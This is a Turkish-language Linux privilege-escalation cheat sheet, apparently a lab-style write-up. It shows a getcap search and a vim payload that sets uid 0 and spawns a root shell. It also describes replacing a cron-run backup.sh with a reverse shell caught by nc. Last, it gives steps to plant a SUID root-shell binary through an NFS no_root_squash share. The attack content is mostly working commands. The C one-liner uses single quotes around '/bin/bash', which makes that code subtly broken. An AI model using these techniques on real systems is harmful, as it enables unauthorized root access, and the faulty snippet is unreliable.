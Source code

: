 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

Eğer backup.sh executable değil ise yürütülebilir yapıp yürütmeliyiz.

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

---

# NFS (Ağ Dosya Paylaşımı) yapılandırması /etc/exports dosyasında tutulur.
```bash
cat /etc/exports
```
![image](https://github.com/user-attachments/assets/c82d3b7f-06d5-41d1-bd36-5a4486cac6fd)

Saldıran makinemizden bağlanabilir paylaşımları sayarak başlayacağız.

```bash
showmount -e [hedef_ip]
```
![image](https://github.com/user-attachments/assets/196a0842-5170-4d3f-be99-1369d61cb9a1)

Saldıracağımız makineye “no_root_squash” paylaşımlarından birini bağlayıp çalıştırılabilir dosyamızı oluşturmaya başlayacağız.
tmp içinde olmalı


![image](https://github.com/user-attachments/assets/0944424d-1742-40d7-9a31-3415a11af785)


sonra 


SUID bitlerini ayarlayabildiğimiz için hedef sistemde /bin/bash'i çalıştıracak basit bir çalıştırılabilir dosya işimizi görecektir.

![image](https://github.com/user-attachments/assets/dde4845c-94af-41e1-a82c-d190484f33e3)

```bash
# echo "int main(){setgid(0);setuid(0);system('/bin/bash');return 0;}" >> nfs.c
# gcc nfs.c -o nfs -w 
# chmod +s nfs   
# 
```

Kodu derlediğimizde SUID bitini ayarlayacağız.

![image](https://github.com/user-attachments/assets/2f97d0c4-0266-4fca-97a3-251db79a799f)


hedef sisteme atıyoruz nfs dosyasını 

daha sonra ./nfs olarak calıstıyoruz
















